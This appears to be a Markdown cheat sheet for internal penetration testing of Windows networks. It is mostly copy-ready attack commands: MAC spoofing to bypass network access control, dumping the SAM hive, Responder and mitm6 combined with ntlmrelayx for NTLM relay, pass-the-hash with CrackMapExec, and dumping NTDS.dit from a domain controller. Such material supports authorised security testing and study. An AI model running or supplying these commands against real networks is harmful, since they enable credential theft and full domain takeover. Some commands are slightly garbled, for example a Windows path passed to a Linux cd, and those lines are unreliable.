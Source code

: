# Internal Penetration Testing

## 1. **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : [WiFi](02-wifi.md)

### NAC - MAC filtering

1. Spoof mac from any authorized device \(e.g printer or voip phone\) and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig 10.11.12.13/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## 2. **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next cheatsheet : [Windows Post Exploitation](05-post-exploitation-windows.md)

---

### Network Access

Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

---

Man-In-The-Middle

Responder + NTLMrelayx

1. First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

2. Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

3. After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

## 3. **Unprivileged account only**

### Get a shell

> For more details, see next cheatsheets : [Shell](../useful-commands/shell.md) and [AV Bypass](09-antivirus-bypass)

---

### Local Privilege Escalation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](03-lpe-windows.md)

---

### Domain Escalation

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---

## 4. **Local Admin account**

### Post-Exploitation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](05-post-exploitation-windows.md)

### Pivoting

> For more details, see next cheatsheet : [Pivoting](07-pivoting.md)

### Replay the secrets found

Kerberos ticket, LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam
```

---

## 5. **Domain admin account**

### Dump NDTS.dit from DC

```bash
# CrackMapExec using hash
sudo cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos --ntds
```